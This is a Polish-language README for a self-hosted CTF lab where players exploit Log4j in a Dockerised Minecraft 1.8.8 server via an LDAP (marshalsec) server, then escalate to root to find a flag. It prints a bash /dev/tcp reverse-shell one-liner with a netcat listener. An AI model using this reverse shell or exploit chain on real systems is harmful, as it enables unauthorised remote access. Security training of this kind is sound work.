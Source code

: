 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Java (jeśli jej nie masz, pobierz i zainstaluj)
- Docker
- Minecraft Launcher
- Jeśli pracujesz na Windowsie, koniecznym może się okazać WSL
- NetCat (niedostępny na Windowsie, użyj WSL lub zainstaluj osobno)

## Szybki start
### Uruchamianie SKLauncher
1. Otwórz SKLauncher, który również znajduje się w repozytorium.
2. Wybierz tryb offline.
3. Kliknij '+' obok "Installations Manager".
4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### Uruchomienie serwera Minecraft i reszty potrzebnych kontenerów
1. **Uruchom swój serwer Minecraft'a:**
   - Plik konfiguracyjny kontenera serwera mc znajduje się w katalogu `Minecraft-Log4j-Exploit`.
   - Po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

2. **Uruchom serwer http:**
   - Plik konfiguracyjny znajduje się w katalogu `codehttp`.

3. **Uruchom serwer LDAP:**
   - Dockerfile znajduje się w katalogu `marshalsec`.

<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

### Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[twoje IP]/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t nazwa-obrazu

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft]() od XXX


TODO:
lf w starcie
wejsc na server mc wpisac komende
jak zatrzymać bash -c reverse shell?
echo to wbudowana funkcja basha, a nie żadna binarka 
allready allocated port: docker desktop delete container, 
